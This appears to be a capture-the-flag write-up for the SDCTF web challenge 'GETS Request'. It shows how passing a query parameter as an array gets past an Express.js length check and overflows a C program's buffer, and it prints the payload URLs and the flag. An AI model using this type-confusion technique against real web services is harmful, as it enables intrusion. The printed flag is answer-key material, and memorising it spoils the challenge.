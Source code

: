 # GETS Request
WEB - EASY

WU author: `inexp-mf`

## Statement
> Express.JS is an easy-to-use web framework, but Javascript/Typescript is too slow. C is a fast, low level language, but I was tired of debugging memory issues. Can I get the best out of both worlds by combining them? \
Website \
https://gets.sdc.tf/ \
Server Source \
[index.js](index.js)

Author: `KNOX`

## Solution
We are given a web access to a C-program called "primegen". It reads a parameter n and tells us either how many prime numbers are less than integer n or says "number malformed" for a variety of reasons.

After reading the statement and looking around for anything that might be intended to be broken, we understand that the primegen might be vulnerable to overflows. It is accessed via `https://gets.sdc.tf/prime?n=`.

Successless attempts that yielded `malformed number` output from the primegen itself:
- `https://gets.sdc.tf/prime?n=ffffff` or `https://gets.sdc.tf/prime?n=0xffffff`.
- `https://gets.sdc.tf/prime?n=1e50`.
- `https://gets.sdc.tf/prime?n=1<<400`.

An interesting result is that when primegen gets a string like `[0-9][^0-9].*`, it successfully parses a numeric prefix and ignores the rest of n.

It then seems that we might wanna try and attack the JS part of validations.
```js
if(req.query.n.length > BUFFER_SIZE) {
    res.status(400).send('Requested n too large!');
    return;
}
```
What if n is not neccesarily a string?
We can pass an array via `https://gets.sdc.tf/prime?n[]=val1&n[]=val2`.

Let's try it out:
`https://gets.sdc.tf/prime?n[]=43&n[]=64`
> There are exactly 19 primes under 43
    
Cool. Works with the former, ignores the remainder.
`https://gets.sdc.tf/prime?n[]=123456789`
> number malformed

You know what that means? We've passed the length validation. No idea why primegen won't check a valid number but won't overflow either. Let's try longer `n`s.
`https://gets.sdc.tf/prime?n[]=99999999999999999999999999`
 > buffer overflow! sdctf{B3$T_0f-b0TH_w0rLds}

 Cheers! It seems that a char buffer overflows or at least the primegen imitates such behavior. 
